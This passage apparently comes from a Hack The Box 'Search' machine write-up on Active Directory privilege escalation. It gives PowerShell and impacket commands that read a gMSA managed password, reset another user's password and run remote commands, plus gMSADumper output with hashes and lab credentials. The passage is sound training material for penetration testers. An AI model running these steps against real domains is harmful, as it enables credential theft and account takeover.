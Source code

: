 ![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Search/bloodhound.png)

### ACE: ReadGMSAPassword and GenericAll

- `$gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'`
- `$mp = $gmsa.'msds-managedpassword'`
- `$mp1 = ConvertFrom-ADManagedPasswordBlob $mp`
- `$user = 'BIR-ADFS-GMSA$'`
- `$passwd = $mp1.'CurrentPassword'`
- `$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass`
- `Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity
tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!'
-force)} -Credential $cred`

Now we can run commands with 

```
$SecPassword = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential('search.htb\tristan.davies', $SecPassword) ; Invoke-Command -ComputerName 127.0.0.1 -Credential $credential -ScriptBlock { cmd /c whoami }
```

Or login with 

- `impacket-wmiexec 'search/tristan.davies:Password1234!@10.129.229.57'`

### `Fast Way`

---

## ACE: ReadGMSAPassword

[https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

- `./gMSADumper.py -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d 'search.htb'`

```
Users or groups who can read password for BIR-ADFS-GMSA$:
 > ITSec
BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f
BIR-ADFS-GMSA$:aes256-cts-hmac-sha1-96:06e03fa99d7a99ee1e58d795dccc7065a08fe7629441e57ce463be2bc51acf38
BIR-ADFS-GMSA$:aes128-cts-hmac-sha1-96:dc4a4346f54c0df29313ff8a21151a42
```

## ACE: GenericAll

### 1. Methode - Kerberoast (Fail)

We can add a SPN to the user and get his hash

https://github.com/ShutdownRepo/targetedKerberoast
